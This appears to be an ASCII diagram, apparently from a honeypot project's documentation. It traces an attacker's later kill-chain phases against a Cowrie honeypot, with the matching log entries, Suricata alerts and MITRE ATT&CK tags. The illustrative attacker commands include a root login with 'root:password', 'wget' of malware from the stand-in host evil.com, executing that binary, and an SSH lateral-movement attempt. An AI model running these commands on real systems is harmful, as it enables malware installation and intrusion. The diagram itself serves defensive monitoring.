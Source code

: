 ```
      │  4. Successful Login         │
      │     "root:password"          │
      ├─────────────────────────────►│ Cowrie: success=1, session starts
      │                              │ Attacker now in emulated shell
      │                              │

Phase 4: Exploitation
──────────────────────
      │                              │
      │  5. Command Execution        │
      │     "uname -a"               │
      ├─────────────────────────────►│ Cowrie: command logged
      │     ← "Linux server01 ..."   │ Fake system info returned
      │                              │
      │  6. Malware Download         │
      │     "wget http://evil.com/   │
      │      malware.bin"            │
      ├─────────────────────────────►│ Cowrie: command logged
      │                              │ downloaded_files: malware.bin
      │                              │ File hash: SHA256(...)
      │                              │ Suricata: SID 2000027 (Suspicious Download)
      │                              │ MITRE: T1105 (Ingress Tool Transfer)
      │                              │

Phase 5: Installation
──────────────────────
      │                              │
      │  7. Malware Execution        │
      │     "chmod +x malware.bin"   │
      │     "./malware.bin &"        │
      ├─────────────────────────────►│ Cowrie: commands logged
      │                              │ [Honeypot doesn't actually execute]
      │                              │ [Attacker thinks it's running]
      │                              │

Phase 6: Command & Control (C2)
────────────────────────────────
      │                              │
      │  8. C2 Beacon Attempt        │
      │     [Malware tries to        │
      │      contact C2 server]      │
      ├─────────────────────────────►│ Blocked by firewall (no egress)
      │         ✗ CONNECTION FAILED  │ Suricata: Detects beacon pattern
      │                              │ MITRE: T1071 (Application Layer Protocol)
      │                              │

Phase 7: Actions on Objectives
───────────────────────────────
      │                              │
      │  9. Lateral Movement Attempt │
      │     "ssh root@172.20.0.11"   │
      ├─────────────────────────────►│ Cowrie: Internal SSH attempt
      │                              │ Suricata: SID 2000035 (Lateral Movement)
      │                              │ honeypot_events: dest_ip=172.20.0.11
      │                              │ MITRE: T1570 (Lateral Tool Transfer)
      │                              │
      │  10. Data Exfiltration       │
      │      [Attacker tries to      │
      │       send data out]         │
      ├─────────────────────────────►│ Blocked by firewall
      │         ✗ CONNECTION FAILED  │ MITRE: T1041 (Exfiltration Over C2)
      │                              │
      └──────────────────────────────┘
```